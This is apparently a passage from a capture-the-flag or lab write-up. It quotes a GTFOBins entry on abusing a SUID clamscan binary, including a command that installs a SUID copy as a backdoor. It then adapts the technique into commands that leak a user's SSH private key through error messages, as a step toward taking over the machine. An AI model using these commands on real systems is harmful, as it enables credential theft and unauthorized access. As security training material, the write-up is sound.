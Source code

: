 Publicly available research demonstrates that the binary ``clamscan``, if set with SUID permissions, can lead to file exposure. The following is an excerpt from an entry on [GTFOBins](https://gtfobins.github.io/gtfobins/clamscan/)

```bash
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

sudo install -m =xs $(which clamscan) .

LFILE=file_to_read
TF=$(mktemp -d)
touch $TF/empty.yara
./clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
```

Of note, the GTFOBins entry also states: "Each line of the file is interpreted as a path and the content is leaked via error messages, thus this might not be suitable to read binary files. The output can optionally be cleaned using `sed`."

This can guide our attack path. We will need to read a file to provision us access the machine and can then exfiltrate the image being displayed by ``user``. 

We can point the targeted file as the ``id_rsa`` file of ``user``. Utilizing the following sequence of commands, we can output the file's contents to the console: 

```bash

LFILE=/home/user/.ssh/id_rsa
TF=$(mktemp -d)
touch $TF/empty.yara
clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
```

![gtfobins_command](./img/gtfobins_cmd.PNG)
